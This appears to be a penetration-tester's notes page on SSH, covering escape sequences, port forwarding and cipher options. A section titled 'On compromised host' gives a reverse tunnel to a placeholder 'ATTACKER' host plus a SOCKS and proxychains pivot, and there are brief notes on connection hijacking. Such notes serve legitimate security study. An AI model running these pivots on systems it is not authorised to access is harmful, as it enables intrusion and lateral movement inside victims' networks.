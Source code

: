 # ssh

## SSH Konami Code

Supported escape sequences: 

```text
~. - terminate connection (and any multiplexed sessions) 
~B - send a BREAK to the remote system 
~C - open a command line 
~R - request rekey 
~V/v - decrease/increase verbosity (LogLevel) 
~^Z - suspend ssh 
~# - list forwarded connections 
~& - background ssh (when waiting for connections to terminate) 
~? - this message ~~ - send the escape character by typing it twice
```

### On a remote box \(ssh connection\) :

**ENTER ~C**

![](../../.gitbook/assets/230b189cbed848048744b0fb9a3623c4.png)

### Port forwarding

![](../../.gitbook/assets/7d069a1dd1704293b4bcb944064dc6d8.png)

Bind a connection on our remote attacking machine 

![](../../.gitbook/assets/5e4a2a62c298413aa94553f21604c744.png)

{% embed url="https://pen-testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-control-sequences" %}

## SSH tunneling

### Local Forwarding

Forward Port 22 from 192.168.99.17 to our local machine port 9005  


![](../../.gitbook/assets/image%20%2859%29.png)



```csharp
ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)
```

### SSH reverse tunnel \(ie for irc\)

```csharp
ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server
ssh -L 9001:127.0.0.1:8082 polo@server
```

then

```csharp
irssi -c localhost -p localhost_PORT
```

### On compromised host 

```csharp
ssh -f -N -R 2222:127.0.0.1 USER@ATTACKER
```

### Then, on attacker 

```csharp
ssh -f -N -D 127.0.0.1:1028 -p 2222 owned_user@127.0.0.1
```

### Then configure proxychains.conf

```text
root@kali:~/Documents/# proxychains ssh 10.1.1.1
ProxyChains-3.1 (http://proxychains.sf.net)
```

## No Password

```csharp
ssh -o PasswordAuthentication=no -i arti_rsa user@host
```

## Cipher

### Force a specific cipher

```csharp
ssh -c aes128-ctr username@hostname
```

## Connection hijacking \(old system\)

```text
1. password
2. priv/pub key
3. Certificat Authority key
```

```text
1. password
2. priv/pub key
3. Certificat Authority key
```

`ssh-keygen -lf keys` → check sha256 sum and compare keys

`ssh-keygen -Lf keys` → check certificat \(MUST BE a key signed with a CA\)

Hijack connection \(doesn't work on new linux host\)

![](../../.gitbook/assets/677737799eb34ad687d6c6c2b76588a1.png)


